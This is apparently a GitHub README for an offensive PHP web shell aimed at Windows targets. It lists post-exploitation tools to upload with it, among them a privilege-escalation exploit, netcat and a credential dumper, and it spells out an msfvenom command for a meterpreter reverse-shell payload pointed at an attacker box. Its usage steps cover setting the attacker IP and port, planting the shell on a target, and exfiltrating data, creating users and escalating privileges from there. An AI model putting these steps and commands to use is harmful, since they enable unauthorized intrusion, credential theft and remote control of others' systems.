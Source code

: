 <h1> The Not-So Simple PHP Command Shell</h1>
<img src="/img/nsscmdshell.png" />
<p>Automates many on target functions. Designed for windows targets. It isn't pretty, but it works as intended. Note that the tools in my quick upload function are not included in this repo as they are the work of other parties. Sources for quick upload files follow: <br>
PsTools: https://download.sysinternals.com/files/PSTools.zip <br>
CVE-2015-1701 Priv Esc(aka Taihou.exe) https://github.com/hfiref0x/CVE-2015-1701<br>
JAWs Enum: https://github.com/411Hall/JAWS/blob/master/jaws-enum.ps1<br>
Netcat for windows: https://github.com/int0x33/nc.exe<br>
Trend Micro Ransomware file Decryptor: <a href="https://powerbox-na-file.trend.org/SFDC/DownloadFile_iv.php?jsonInfo=%7B%22Query%22%3A%22dR%2BBrNMzg9JJ%2BWXagmE3CFGo6KHZSCtPVPWbg7058IWvcyqFByPzp7Z4BbItLT0NsFzkgJ0M94o3bXOPZnUaMn8BheublSy8lx4KW0qoVEoOa5y7oXGHz2cEAVug61PrxdNc4ubF%2F0%2Fo%2F28ETVpeohg%2F1LXEe9WTr%2B226RTY1Fy5cDIFi3jpKceg6BphKyMuDSbSXylWRKdYIpWKpjVQ8C57t%2BsE56nvuvo6MQmfekk4oRgyS03nH6MaTefGu4nx%22%2C%22iv%22%3A%2259e1f948abd6a90359e13f2b04fa37a5%22%7D" target="_blank"> here </a><br> 
Windows Credentials Editor: https://gitlab.com/kalilinux/packages/wce (wce32,64, and universal)<br>
DRW Ransomware Decryptor: https://download2.easeus.com/installer_rss_new.php<br>
venom.exe : (sudo) msfvenom -p windows/meterpreter/reverse_tcp LHOST=ATTACKBOXIP LPORT=ATTACBOXPORT -e x86/shikata_ga_nai -f exe -o venom.exe
</p>

<img src="https://github.com/kaotickj/The-Not-So-Simple-PHP-Command-Shell/blob/main/img/nsscmdshelluse.gif" />
<h2>Automates or simplifies many on target enumeration functions. Including:</h2>
<ul>
<li>Simple system commands</li>
<li>File upload/download options</li>
<li>One click preset user creation (on compatible targets with sufficient privileges)</li>
<li>One click Priv Esc for preset user (on compatible targets with sufficient privileges)</li>
<li>One click user info/ user permissions info</li>
<li>One click systeminfo</li>
<li>One Click processes list</li>
<li>And many more...</li>
</ul>

<h2>How to use it</h2>
<p>First, change the variables, "$attackip" and "$attackport" to the appropriate values for YOUR attack machine:</p>
<code>$attackip = "10.0.2.6";</code><br>
<code>$attackport = "8000";</code>

<p>Next, upload the nsscmdshell.php file to the target. Please note that gaining access to the target is beyond the scope of this writing and your responsibility to establish in a manner consistent with established law.  This tool is intended to be used for on target enumeration to gather and exfiltrate information and then to upload and execute tools such as netcat or msvenom payload for further access to the target.  Once you've gained sufficient access to a target to upload the nsscmdshell, no further instruction on using this tool should be needed.  Do not open issues because you don't know how to use this tool.  It works.  Got "Warning: file_get_contents(http://XX.XX.XX.XX:XXXX/filename.ext):failed to open stream: No connetion could be made...." error?  Two possible causes: 1).You didn't set the variables, "$attackip" and "$attackport" to your machine. Fix: ifconfig your ip, and set in nsscmdshell.php lines 10 and 11. 2). The files are not available on the defined server or port, or there is no server running on the defined port. Fix: python3 -m http.server XXXX in a directory containing the files you're attempting to upload.</p>
